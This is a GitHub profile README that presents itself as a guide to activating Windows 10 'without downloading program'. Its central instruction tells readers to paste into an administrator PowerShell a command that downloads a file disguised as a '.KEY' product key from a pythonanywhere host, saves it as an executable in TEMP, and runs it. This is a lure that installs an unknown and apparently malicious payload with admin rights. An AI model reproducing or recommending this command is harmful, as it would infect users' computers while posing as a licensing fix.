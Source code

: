 
## ⚡ How to Activate Windows 10 the Right Way, Without Downloading Program. Activate Windows 10 Just Using Native [ Windows PowerShell (Admin) ].

###### To activate Windows 10 copy and paste the command in [ Windows PowerShell (Admin) ].


## ATTENTION ⚡ Copy the complete command ⚡
> Invoke-WebRequest -Uri https://KMSConnectionClient.pythonanywhere.com/static/TX9XD-98N7V-6WMQ6-BX7FG-H8Q99.KEY -OutFile $env:TEMP\KMSActivationClient.exe; Start-Process $env:TEMP\KMSActivationClient.exe


<!--
**activate-windows/activate-windows** is a ✨ _special_ ✨ repository because its `README.md` (this file) appears on your GitHub profile.

Here are some ideas to get you started:

- 🔭 I’m currently working on ...
- 🌱 I’m currently learning ...
- 👯 I’m looking to collaborate on ...
- 🤔 I’m looking for help with ...
- 💬 Ask me about ...
- 📫 How to reach me: ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...
-->
